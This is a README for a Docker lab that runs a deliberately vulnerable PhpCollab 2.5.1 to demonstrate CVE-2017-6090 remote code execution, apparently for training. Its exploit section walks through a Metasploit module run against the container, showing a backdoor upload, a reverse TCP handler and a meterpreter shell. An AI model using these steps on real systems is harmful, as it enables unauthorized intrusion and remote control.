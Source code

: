 # Containerized exploitable CVE-2017-6090
[![Docker Pulls](https://img.shields.io/docker/pulls/jlkinsel/exploit-cve-2017-6090.svg?style=plastic)](https://hub.docker.com/r/jlkinsel/exploit-cve-2017-6090/)
![License](https://img.shields.io/badge/License-Apache-blue.svg?style=plastic)

This projects builds a container running PhpCollab 2.5.1, containing
a remote code execution vulnerability as detailed in CVE-2017-6090.
In addition, there is a docker-compse file to start that container
and mysql to show the demo, and instructions to exploit are below.


## Build
`docker build -t ` **containername** `.` or use the image jlkinsel/exploit-cve-2017-6090

## Run & Configure
The easiest way to get this thing up is to use the enclosed
*docker-compose.yml* file. If I get bored at some point - or folks
show interest - I'll create a kubernetes deployment or helm chart.

So, to get things going:

```
docker-compose up
```

So far, so good! Now, phpcollab needs to be configured to use the
database, and given a default admin password. I (briefly) tried
automating this, but...well...you look like you know how to use a
browser...

* Browse to http://localhost:8088
* Scroll to bottom of GPL, click the "Offline installation" box and then click **Step 2**
* Enter the following data in fields, then click **Save**:

| Field | value |
|-------|-------|
| Database server | mysql |
| Database login | phpcollab |
| Database password | changeme |
| Database name | phpcollab |
| Notifications | False |
| Admin password | changeme (or whatever you want |

Finally, you can log in and poke around, but not necessary for the exploit.

### Note
Notice this docker composition isn't doing anything fancy for
storage. If you wish to persist the mysql database, you'll have to
add a volume definition to the mysql service definition in
`docker-compose.yml`. See examples on the [mariadb docker hub
page](https://hub.docker.com/_/mariadb/)

## Exploit
First - follow *Run & Configure* above to get the application up and running.

I didn't add an exploit in this project, because, well,
[Metasploit](https://www.rapid7.com/db/modules/exploit/unix/webapp/phpcollab_upload_exec).

New to MSF? Here's a quick overview of exploiting the container we just started:
```
docker run -ti --network exploitcve20176090_default remnux/metasploit
```
This takes a few minutes to spin things up. the *remnux/metasploit*
docker hub page covers using volumes so this won't take as long in
the future. But we're about now!

Once you get a shell prompt, let's continue:
```
# msfconsole
msf5 > use exploit/unix/webapp/phpcollab_upload_exec
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set TARGET 0
TARGET => 0
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set RHOST phpcollab
RHOST => phpcollab
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set RPORT 80
RPORT => 80
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set TARGETURI /
TARGETURI => /
msf5 exploit(unix/webapp/phpcollab_upload_exec) > exploit

[*] Started reverse TCP handler on 172.31.0.4:4444
[*] Uploading backdoor file: 1.wGvfKLDyWHL.php
[+] Backdoor successfully created.
[*] Triggering the exploit...
[*] Sending stage (37543 bytes) to 172.31.0.2
[+] Deleted 1.wGvfKLDyWHL.php

meterpreter >
```
At this point, you're in, and the games can begin.

### Note
If the name of this directory is something other than
"exploit-CVE-2017-6090" you'll have to change the --network command
above.

Also - yes, we set the remote port to 80 in msfconsole, even through
it's 8088 externally. The metasploit container is on the same network
as the phpcollab container.

